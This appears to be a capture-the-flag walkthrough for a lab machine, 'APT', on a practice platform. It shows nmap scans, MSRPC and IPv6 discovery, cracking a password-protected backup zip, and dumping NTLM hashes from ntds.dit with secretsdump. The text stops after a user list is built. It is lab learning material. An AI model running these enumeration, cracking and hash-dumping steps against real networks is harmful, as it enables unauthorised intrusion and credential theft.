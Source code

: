 This was done following a guide. (not cheating but learning instead)
IP: 10.10.10.213
# Enumeration
## Nmap
```bash
sudo nmap -sC -sV 10.10.10.213

Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-17 16:55 AEDT
Nmap scan report for 10.10.10.213
Host is up (0.0059s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Gigantic Hosting | Home
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Windows, IIS

## Port 80
html page

Email: `mail@gigantichosting.com`

Page cloned from:
```html
<!-- Mirrored from 10.13.38.16/support.html by HTTrack Website Copier/3.x [XR&CO'2014], Mon, 23 Dec 2019 08:13:45 GMT -->
```

Contact form that goes no where

## msrpc
Metasploit scanners
```
scanner/dcerpc/endpoint_mapper
```

This gives a bunch of info.

### Impacket script
Uses this weird ip string; `ncacn_ip_tcp` which is an old interface for tcp.
```bash
rpcmap.py 'ncacn_ip_tcp:10.10.10.213' -brute-uuids -brute-opnums -auth-level 1 -opnum-max 5
```

For each opnum that comes back as success check what the UUID means

`99FCFEC4-5260-101B-BBCB-00AA0021347A`
* Opnum 3 : ServerAlive
* Opnum 5 : ServerAlive2 (retuns security bindings for UUIDs)

There is a python script which can enumerate this. [link](https://github.com/mubix/IOXIDResolver/blob/master/IOXIDResolver.py)

```bash
python3 oxid.py -t 10.10.10.213
[*] Retrieving network interface of 10.10.10.213
Address: apt
Address: 10.10.10.213
Address: dead:beef::85fe:8108:ccb3:a543
Address: dead:beef::184
Address: dead:beef::b885:d62a:d679:573f
```

Add the ipv6 addr to `/etc/hosts`.

## Nmap ipv6
This shows alot more info:
```bash
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Most likely AD Domain controller.

Hostname from ldap
```
apt.htb.local
```

## SMB
Null authentication works for the backup directory which has a zip file. This is password protected.

Using zip2john then cracking with rockyou, gives a password of: `iloveyousomuch`

ntds.dit file.

# NTDS file
Running secretsdump.py on ntds.dit
```bash
python3 /opt/impacket/examples/secretsdump.py -pwd-last-set -user-status -history -ntds ntds.dit -security SECURITY -system SYSTEM local | tee secretsdump.bck
```

Check for password rotations
```bash
grep aad3b435b51404eeaad3b435b51404ee secretsdump.bck | grep history | grep -v history0

APT$_history1:1000:aad3b435b51404eeaad3b435b51404ee:4be5e714b1e235197d0d2de653ec9759:::
APT$_history2:1000:aad3b435b51404eeaad3b435b51404ee:04e8e55da6d3d5e6dd9d5b29272aa7f1:::
```

Check for passwords that have been changed.
```bash
grep aad3b435b51404eeaad3b435b51404ee secretsdump.bck | grep -v '03:3[567]' | grep -v history0

$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e1934528fd9be4bb06e648526acc4a4d
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe::: (pwdLastSet=2020-09-22 21:53) (status=Enabled)
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (pwdLastSet=never) (status=Enabled)
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (pwdLastSet=never) (status=Disabled)
APT$:1000:aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb::: (pwdLastSet=2020-09-24 03:24) (status=Enabled)
APT$_history1:1000:aad3b435b51404eeaad3b435b51404ee:4be5e714b1e235197d0d2de653ec9759:::
APT$_history2:1000:aad3b435b51404eeaad3b435b51404ee:04e8e55da6d3d5e6dd9d5b29272aa7f1:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:72791983d95870c0d6dd999e4389b211::: (pwdLastSet=2020-09-20 23:14) (status=Disabled)
```

Make a user list.
```bash
grep aad3b435b51404eeaad3b435b51404ee secretsdump.bck |awk -F: '{print $1}' | grep -v history | sort -u > users.lst

```